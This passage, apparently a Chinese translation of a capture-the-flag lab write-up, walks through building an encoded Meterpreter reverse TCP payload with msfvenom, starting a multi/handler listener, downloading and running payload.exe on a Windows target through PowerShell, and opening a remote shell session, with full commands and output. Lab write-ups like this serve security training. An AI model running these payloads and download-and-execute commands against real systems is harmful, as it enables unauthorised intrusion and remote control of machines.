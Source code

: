 回到攻击框，教室建议学生生成一个可执行的有效负载来调用一个 Meterpreter 反向 TCP shell:

```
**$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder        x86/shikata_ga_nai LHOST=<attackbox ip> LPORT=4445 -f exe -o payload.exe** [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: payload.exe
```

然后，指导学生通过`exploit/multi/handler`启动 Meterpreter 反向 TCP 处理程序

```
**$ sudo msfconsole**[... snip ...]=[ metasploit v5.0.60-dev ]
+ — — =[ 1947 exploits — 1089 auxiliary — 333 post ]
+ — — =[ 556 payloads — 45 encoders — 10 nops ]
+ — — =[ 7 evasion ]**msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
**msf5 exploit(multi/handler) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf5 exploit(multi/handler) > set LPORT 4445**
LPORT => 4445
**msf5 exploit(multi/handler) > exploit**[*] Started reverse TCP handler on 10.9.6.135:4445
```

在 boot2root shell 上，我下载并执行了`payload.exe`文件:

```
**PS C:\> cd C:\\Users\\bruce\\Desktop\\**
**PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://<attackbox ip>:8888/payload.exe','payload.exe')"**
**PS C:\Users\bruce\Desktop> ls**Directory: C:\Users\bruce\DesktopMode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---                  [redacted]      73802 payload.exe                       
-a---        10/25/2019  11:22 PM         32 user.txt**PS C:\Users\bruce\Desktop> Start-Process "payload.exe"**
**PS C:\Users\bruce\Desktop>**
```

并启动反向抄表器外壳:

```
[*] Started reverse TCP handler on <attackbox ip>:4445 
[*] Sending stage (180291 bytes) to <boot2root ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4445 -> <boot2root ip>:49287) at [redacted] -0400**meterpreter >**
```

阿洛拉。

